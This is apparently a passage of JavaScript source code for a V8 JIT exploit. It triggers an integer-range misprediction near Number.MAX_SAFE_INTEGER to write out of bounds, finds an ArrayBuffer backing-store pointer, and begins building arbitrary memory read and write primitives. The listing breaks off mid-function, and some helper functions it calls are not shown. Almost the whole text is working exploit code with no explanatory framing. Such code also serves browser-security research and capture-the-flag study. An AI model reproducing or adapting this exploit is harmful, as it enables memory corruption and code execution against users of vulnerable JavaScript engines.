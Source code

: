 ```javascript
//the arg must be a smi array
function Uint32ToHex64(x)
{
    return "0x" + ljust(x[1].toString(16),8,'0') + ljust(x[0].toString(16),8,'0');
}
//the arg must be a Uint64 number
function Uint64ToHex64(x)
{
    return "0x" + ljust(x.toString(16) ,8 ,'0');
}

function success(name, addr)
{
    console.log("[+]" + name + " ===> " + Uint32ToHex64(addr));
}

function opt_me(choice)
{
    var array_1 = new Array(1.1, 2.2, 3.3);
    //Range(9007199254740987, 9007199254740992)
    var x = (choice == "opt") ? 9007199254740992 : 9007199254740987;
    //Range(9007199254740990, 9007199254740992) actually Range(9007199254740990, 9007199254740996)
    var y = x + 1 + 1 + 1;
    //Range(0, 2) acctually Range(0, 6)
    var z = y - (Number.MAX_SAFE_INTEGER - 1);
    array_1[z] = U32ToF64([0,0x1000]);
    return array_1;
}
opt_me("no opt");

for(var i = 0; i < 0x10000; i++)
    opt_me("no opt");

var  res = opt_me("opt");

var buffer = new ArrayBuffer(0x666);
var buffer_view = new DataView(buffer);
var buffer_ptr_offset = -1;

//that NaN can't compare so we convert the NaN to U64 and then compare
for(var offset = 0x0; offset < res.length; offset++){
    if(F64ToU64(res[offset]) == 0x66600000000n){
        console.log("find ptr!");
        buffer_ptr_offset = offset + 1;
        break;
    }
}

if(buffer_ptr_offset == -1)
    throw "The ArrayBuffer's backingstore is not found!";
else 
    console.log("The offset of the ArrayBuffer's backingstore ptr is : " + buffer_ptr_offset.toString());
//get the arbitrary read and write 
function ArbitaryRead(addr, offset)
{
    addr[0] = addr[0] + offset;
    res[buffer_ptr_offset] = U32ToF64(addr);
    return [buffer_view.getUint32(0,true), buffer_view.getUint32(4, true)]; 
}
function ArbitaryWrite32(addr, data)
{
    res[buffer_ptr_offset] = U32ToF64(addr);
```
